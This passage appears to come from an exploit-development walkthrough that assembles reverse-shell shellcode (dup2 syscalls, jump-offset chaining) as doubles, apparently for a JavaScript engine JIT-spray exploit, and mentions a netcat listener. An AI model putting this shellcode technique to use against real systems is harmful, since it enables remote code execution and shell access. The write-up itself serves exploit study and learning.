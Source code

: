 ![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024000919.png)

- This is for testing `jne` let's put this and generate a sample and adjust the jne according to it (make sure to turn your netcat listener again, else connect syscall will fail)

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024003730.png)


- After the `dup2` syscall `jne` has `0x11543eed6aa6` value to jump next
- we need to jump exactly in the starting of `dec rsi` instruction

```js
0x11543eed6aa9    dec    rsi
```

- `dec rsi` is in `0x11543eed6aa9`

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024003915.png)

- So in this case let's add 3 to the current jne address

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024004052.png)

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024004312.png)

- Now it exactly pointing the `dec rsi` instruction

- We can do this above math easily like this

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024004619.png)

- I'm using **a2** in disasm() because the jump instruction takes 2 bytes, we need to add that also, Hope it makes sense

```js
>>> disasm(b'\xeb\x0f')
'   0:   eb 0f                   jmp    0x11'
```

- After this instruction we need to jmp 0x11 bytes to reach the next shellcode set, so add this to the existing hex value

```python
print("0x0feb90909090a275n,")
```

```python
## dup2 syscall & jmp handling
make_double(asm('xor rsi,rsi'))
make_double(asm('push 0x3'))
make_double(asm('pop rsi'))
make_double(asm('dec rsi'))
make_double(asm('push 0x21'))
make_double(asm('pop rax'))
make_double(asm('syscall'))

# print("0x9090909090909f75n") # for jmping
print("0x0feb90909090a275n,") # for jmping (correct)
```
